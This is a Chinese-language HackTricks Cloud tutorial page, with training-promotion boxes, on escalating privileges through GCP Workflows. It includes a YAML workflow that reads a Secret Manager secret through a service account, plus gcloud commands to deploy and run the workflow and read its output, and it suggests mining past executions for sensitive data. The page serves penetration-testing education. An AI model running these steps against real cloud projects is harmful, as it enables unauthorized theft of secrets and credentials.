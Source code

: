 # GCP - Workflows提权

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 工作流程

基本信息：

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### 在步骤中滥用SA权限

据我所知，不可能通过访问包含Workflow连接的SA凭据的元数据端点来获取shell。但是，可以通过在Workflow中添加要执行的操作来滥用SA的权限。

可以找到连接器的文档。例如，这是[**Secretmanager连接器的页面**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**。**在侧边栏中可以找到其他几个连接器。

在这里，您可以找到一个打印秘密的连接器示例：
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
从命令行界面（CLI）进行更新：
```bash
gcloud workflows deploy workflow-name \
--service-account=email@SA \
--source=/path/to/config.yaml
```
如果您没有网络访问权限，可以通过以下方式触发并查看工作流的执行：

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run workflow-1

# Run execution without output
gcloud workflows execute <workflow-name>

# List executions
gcloud workflows executions list workflow-1

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
您还可以检查先前执行的输出，查找敏感信息
{% endhint %}

{% hint style="success" %}
学习并练习AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
